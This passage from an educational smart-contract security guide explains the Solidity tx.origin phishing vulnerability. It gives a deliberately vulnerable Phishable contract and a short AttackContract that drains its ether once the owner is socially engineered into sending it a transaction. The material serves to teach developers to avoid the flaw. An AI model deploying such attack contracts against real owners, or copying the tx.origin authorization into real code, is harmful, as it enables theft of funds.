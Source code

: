 For further reading, see [Stack Exchange
Question](https://ethereum.stackexchange.com/questions/1891/whats-the-
difference-between-msg-sender-and-tx-origin), [Peter Venesses's
Blog](https://vessenes.com/tx-origin-and-ethereum-oh-my/) and [Solidity -
Tx.Origin attacks](https://medium.com/coinmonks/solidity-tx-origin-
attacks-58211ad95514).

### The Vulnerability

Contracts that authorise users using the `tx.origin` variable are typically
vulnerable to phishing attacks which can trick users into performing
authenticated actions on the vulnerable contract.

Consider the simple contract,

    
    
    contract Phishable {
        address public owner;
    
        constructor (address _owner) {
            owner = _owner;
        }
    
        function () public payable {} // collect ether
    
        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
    }
    

Notice that on line [11] this contract authorises the `withdrawAll()` function
using `tx.origin`. This contract allows for an attacker to create an attacking
contract of the form,

    
    
    import "Phishable.sol";
    
    contract AttackContract {
    
        Phishable phishableContract;
        address attacker; // The attackers address to receive funds.
    
        constructor (Phishable _phishableContract, address _attackerAddress) {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }
    
        function () payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    

To utilise this contract, an attacker would deploy it, and then convince the
owner of the `Phishable` contract to send this contract some amount of ether.
The attacker may disguise this contract as their own private address and
social engineer the victim to send some form of transaction to the address.
The victim, unless being careful, may not notice that there is code at the
attacker's address, or the attacker may pass it off as being a multisignature
wallet or some advanced storage wallet (remember source code of public
contracts is not available by default).
